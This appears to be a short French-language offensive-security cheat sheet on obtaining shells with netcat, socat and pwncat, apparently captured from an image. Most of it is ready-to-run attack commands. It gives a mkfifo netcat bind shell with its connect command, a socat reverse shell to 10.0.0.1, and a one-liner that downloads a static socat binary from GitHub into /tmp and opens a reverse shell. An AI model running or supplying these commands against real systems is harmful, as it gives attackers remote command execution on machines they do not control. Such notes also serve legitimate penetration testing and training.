 




## Netcat - Bind Shell (without -e option)

Lancer un bind shell sur la cible
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash 2>&1|nc -lp 4444 >/tmp/f
```

Se connecter avec un nc 
```
nc victim 4444
```








## Shell: Socat

Socat est un nc sous stéroides. Il permet une authentification, un chiffrement des communications et un forward de ports.<br/>
On le trouve rarement sur les serveurs, il faut l'uploader.<br/>
Mettre un socat en écoute
```
socat file:`tty`,raw,echo=0 TCP-L:4444
```

Lancer un reverse shell avec un socat
```
$ /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4444
```

Automatiser l'upload et le reverse shell:
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:4242
```








## Shell: Pwncat

Pwncat est un nc sous stéroides. 
```
https://github.com/cytopia/pwncat
```





